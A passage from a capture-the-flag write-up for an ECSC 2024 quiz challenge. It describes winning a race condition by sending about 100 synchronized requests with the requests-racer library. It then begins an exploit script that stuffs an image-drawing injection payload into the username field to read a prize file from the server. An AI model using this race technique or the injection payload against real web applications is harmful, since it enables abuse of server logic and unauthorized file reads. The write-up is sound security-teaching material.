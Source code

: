 Usually, there are ways to increase the window, for example, by making the server do more work, or by making the server wait for some time, or by making the server do some heavy computation inside the desired window. But in this case, even if probably there were, I was not able to find ways to increase the window.

Thus, excluding increasing the race window, my plan was to increase as possible the number of requests I was sending, and make them concurrent on a lower level (I was using threads in python).

I found this python library called [requests-racer](https://github.com/nccgroup/requests-racer)
>Requests-Racer is a small Python library that lets you use the Requests library to submit multiple requests that will be processed by their destination servers at approximately the same time, even if the requests have different destinations or have payloads of different sizes.

Having to change the script to use this library, I was able to send many requests at the same time, and after some trials, ending up sending 100 requests at the same time, and I was able to get 15 points. Thus after visiting the `trophy.php` page:
![Flag](img/flag.jpeg)


## Exploit
Here you can find my exploit scripts, have fun replicating it!

```python
import requests
from pwn import *

# I have cloned the requests_racer repo from github
# Followed the instructions in the README.md to install the library
# and have the folder inside the current directory of this script
from requests_racer import SynchronizedAdapter

# See documentation of the library to understand how to use it
sync = SynchronizedAdapter()

# Taken from source code
answers = [
    ['42', 'There is no meaning', 'To be happy', 'To help others'],
    ['To express emotions', 'To make money', 'To make people think', 'To make people happy'],
    ['To be free', 'To be rich', 'To be healthy', 'To be happy'],
    ['Yes', 'No', 'Maybe', 'I don''t know'],
    ['In the city', 'In the country', 'In the mountains', 'In the beach']
]

username = "\"image src 0,0 0,0 \"/prizes/flag.jpg"
email = "verycoolwithoutatemaildotcom"
password = None

login_path = '/login.php'
register_path = login_path
quiz_path = '/quiz.php'
reset_path = '/reset.php'
prize_path = '/get_prize.php'

is_remote = False
if args.REMOTE:
    is_remote = True
    url = 'http://lifequiz.challs.open.ecsc2024.it/'
else:
    url = 'http://localhost:8000'

# solved with THREADS=100
no_of_sessions = 4 if args.THREADS == '' else int(args.THREADS)
sessions = []
points = 0
index = 0
```